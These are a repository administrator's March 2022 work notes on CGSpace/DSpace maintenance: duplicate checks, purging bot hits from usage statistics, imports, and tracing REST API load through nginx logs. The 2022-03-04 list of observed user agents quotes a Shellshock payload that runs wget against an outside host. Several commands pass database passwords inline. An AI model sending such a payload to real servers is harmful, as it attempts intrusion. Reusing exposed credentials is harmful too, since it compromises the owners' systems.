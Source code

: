 ```yaml
---
title: "March, 2022"
date: 2022-03-01T16:46:54+03:00
author: "Alan Orth"
categories: ["Notes"]
---
```


## 2022-03-01

- Send Gaia the last batch of potential duplicates for items 701 to 980:

```console
$ csvcut -c id,dc.title,dcterms.issued,dcterms.type ~/Downloads/2022-03-01-CGSpace-TAC-ICW-batch4-701-980.csv > /tmp/tac4.csv
$ ./ilri/check-duplicates.py -i /tmp/tac4.csv -db dspace -u dspace -p 'fuuu' -o /tmp/2022-03-01-tac-batch4-701-980.csv
$ csvcut -c id,filename ~/Downloads/2022-03-01-CGSpace-TAC-ICW-batch4-701-980.csv > /tmp/tac4-filenames.csv
$ csvjoin -c id /tmp/2022-03-01-tac-batch4-701-980.csv /tmp/tac4-filenames.csv > /tmp/2022-03-01-tac-batch4-701-980-filenames.csv
```

<!--more-->

## 2022-03-04

- Looking over the CGSpace Solr statistics from 2022-02
  - I see a few new bots, though once I expanded my search for user agents with "www" in the name I found so many more!
  - Here are some of the more prevalent or weird ones:
    - axios/0.21.1
    - Mozilla/5.0 (compatible; Faveeo/1.0; +http://www.faveeo.com)
    - Nutraspace/Nutch-1.2 (www.nutraspace.com)
    - Mozilla/5.0 Moreover/5.1 (+http://www.moreover.com; webmaster@moreover.com)
    - Mozilla/5.0 (compatible; Exploratodo/1.0; +http://www.exploratodo.com
    - Mozilla/5.0 (compatible; GroupHigh/1.0; +http://www.grouphigh.com/)
    - Crowsnest/0.5 (+http://www.crowsnest.tv/)
    - Mozilla/5.0/Firefox/42.0 - nbertaupete95(at)gmail.com
    - metha/0.2.27
    - ZaloPC-win32-24v454
    - Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:x.x.x) Gecko/20041107 Firefox/x.x
    - ZoteroTranslationServer/WMF (mailto:noc@wikimedia.org)
    - FullStoryBot/1.0 (+https://www.fullstory.com)
    - Link Validity Check From: http://www.usgs.gov
    - OSPScraper (+https://www.opensyllabusproject.org)
    - () { :;}; /bin/bash -c \"wget -O /tmp/bbb www.redel.net.br/1.php?id=3137382e37392e3138372e313832\"
  - I submitted [a pull request to COUNTER-Robots](https://github.com/atmire/COUNTER-Robots/pull/52) with some of these
- I purged a bunch of hits from the stats using the `check-spider-hits.sh` script:

```console
]$ ./ilri/check-spider-hits.sh -f dspace/config/spiders/agents/ilri -p
Purging 6 hits from scalaj-http in statistics
Purging 5 hits from lua-resty-http in statistics
Purging 9 hits from AHC in statistics
Purging 7 hits from acebookexternalhit in statistics
Purging 1011 hits from axios\/[0-9] in statistics
Purging 2216 hits from Faveeo\/[0-9] in statistics
Purging 1164 hits from Moreover\/[0-9] in statistics
Purging 740 hits from Exploratodo\/[0-9] in statistics
Purging 585 hits from GroupHigh\/[0-9] in statistics
Purging 438 hits from Crowsnest\/[0-9] in statistics
Purging 1326 hits from nbertaupete95 in statistics
Purging 182 hits from metha\/[0-9] in statistics
Purging 68 hits from ZaloPC-win32-24v454 in statistics
Purging 1644 hits from Firefox\/x\.x in statistics
Purging 678 hits from ZoteroTranslationServer in statistics
Purging 27 hits from FullStoryBot in statistics
Purging 26 hits from Link Validity Check in statistics
Purging 26 hits from OSPScraper in statistics
Purging 1 hits from 3137382e37392e3138372e313832 in statistics
Purging 2755 hits from Nutch-[0-9] in statistics

Total number of bot hits purged: 12914
```

- I added a few from that list to the local overrides in our DSpace while I wait for feedback from the COUNTER-Robots project

## 2022-03-05

- Start AReS harvest

## 2022-03-10

- A few days ago Gaia sent me her notes on the fourth batch of TAC/ICW documents (items 701–980 in the spreadsheet)
  - I created a filter in LibreOffice and selected the IDs for items with the action "delete", then I created a custom text facet in OpenRefine with this GREL:

```
or(
isNotNull(value.match('707')),
isNotNull(value.match('709')),
isNotNull(value.match('710')),
isNotNull(value.match('711')),
isNotNull(value.match('713')),
isNotNull(value.match('717')),
isNotNull(value.match('718')),
...
isNotNull(value.match('821'))
)
```

- Then I flagged all matching records, exported a CSV to use with SAFBuilder, and imported them on DSpace Test:

```console
$ JAVA_OPTS="-Xmx1024m -Dfile.encoding=UTF-8" dspace import --add --eperson=fuu@ummm.com --source /tmp/SimpleArchiveFormat --mapfile=./2022-03-10-tac-batch4-701to980.map
```

## 2022-03-12

- Update all containers and rebuild OpenRXV on linode20:

```console
$ docker images | grep -v ^REPO | sed 's/ \+/:/g' | cut -d: -f1,2 | xargs -L1 docker pull
$ docker-compose build
```

- Then run all system updates and reboot
- Start a full harvest on AReS

## 2022-03-16

- Meeting with KM/KS group to start talking about the way forward for repositories and web publishing
  - We agreed to form a sub-group of the transition task team to put forward a recommendation for repository and web publishing

## 2022-03-20

- Start a full harvest on AReS

## 2022-03-21

- Review a few submissions for Open Repositories 2022
- Test one tentative DSpace 6.4 patch and give feedback on a few more that Hrafn missed

## 2022-03-22

- I accidentally dropped the PostgreSQL database on DSpace Test, forgetting that I had all the CGIAR CAS items there
  - I had been meaning to update my local database...
- I re-imported the CGIAR CAS documents to [DSpace Test](https://dspacetest.cgiar.org/handle/10568/118432) and generated the PDF thumbnails:

```console
$ JAVA_OPTS="-Xmx1024m -Dfile.encoding=UTF-8" dspace import --add --eperson=fuu@ma.com --source /tmp/SimpleArchiveFormat --mapfile=./2022-03-22-tac-700.map
$ JAVA_OPTS="-Xmx1024m -Dfile.encoding=UTF-8" dspace filter-media -p "ImageMagick PDF Thumbnail" -i 10568/118432
```

- On my local environment I decided to run the `check-duplicates.py` script one more time with all 700 items:

```console
$ csvcut -c id,dc.title,dcterms.issued,dcterms.type ~/Downloads/TAC_ICW_GreenCovers/2022-03-22-tac-700.csv > /tmp/tac.csv
$ ./ilri/check-duplicates.py -i /tmp/tac.csv -db dspacetest -u dspacetest -p 'dom@in34sniper' -o /tmp/2022-03-22-tac-duplicates.csv
$ csvcut -c id,filename ~/Downloads/2022-01-21-CGSpace-TAC-ICW.csv > /tmp/tac-filenames.csv
$ csvjoin -c id /tmp/2022-03-22-tac-duplicates.csv /tmp/tac-filenames.csv > /tmp/tac-final-duplicates.csv
```

- I sent the resulting 76 items to Gaia to check
- UptimeRobot said that CGSpace was down
  - I looked and found many locks belonging to the REST API application:

```console
$ psql -c 'SELECT * FROM pg_locks pl LEFT JOIN pg_stat_activity psa ON pl.pid = psa.pid;' | grep -o -E '(dspaceWeb|dspaceApi)' | sort | uniq -c | sort -n
    301 dspaceWeb
   2390 dspaceApi
```

- Looking at nginx's logs, I found the top addresses making requests today:

```console
# awk '{print $1}' /var/log/nginx/rest.log | sort | uniq -c | sort -h
   1977 45.5.184.2
   3167 70.32.90.172
   4754 54.195.118.125
   5411 205.186.128.185
   6826 137.184.159.211
```

- 137.184.159.211 is on DigitalOcean using this user agent: `GuzzleHttp/6.3.3 curl/7.81.0 PHP/7.4.28`
  - I blocked this IP in nginx and the load went down immediately
- 205.186.128.185 is on Media Temple, but it's OK because it's the CCAFS publications importer bot
- 54.195.118.125 is on Amazon, but is also a CCAFS publications importer bot apparently (perhaps a test server)
- 70.32.90.172 is on Media Temple and has no user agent
- What is surprising to me is that we already have an nginx rule to return HTTP 403 for requests without a user agent
  - I verified it works as expected with an empty user agent:

```console
$ curl -H User-Agent:'' 'https://dspacetest.cgiar.org/rest/handle/10568/34799?expand=all' 
Due to abuse we no longer permit requests without a user agent. Please specify a descriptive user agent, for example containing the word 'bot', if you are accessing the site programmatically. For more information see here: https://dspacetest.cgiar.org/page/about.
```

- I note that the nginx log shows '-' for a request with an empty user agent, which would be indistinguishable from a request with a '-', for example these were successful:

```console
70.32.90.172 - - [22/Mar/2022:11:59:10 +0100] "GET /rest/handle/10568/34374?expand=all HTTP/1.0" 200 10671 "-" "-"
70.32.90.172 - - [22/Mar/2022:11:59:14 +0100] "GET /rest/handle/10568/34795?expand=all HTTP/1.0" 200 11394 "-" "-"
```

- I can only assume that these requests used a literal '-' so I will have to add an nginx rule to block those too
- Otherwise, I see from my notes that 70.32.90.172 is the wle.cgiar.org REST API harvester... I should ask Macaroni Bros about that

<!-- vim: set sw=2 ts=2: -->
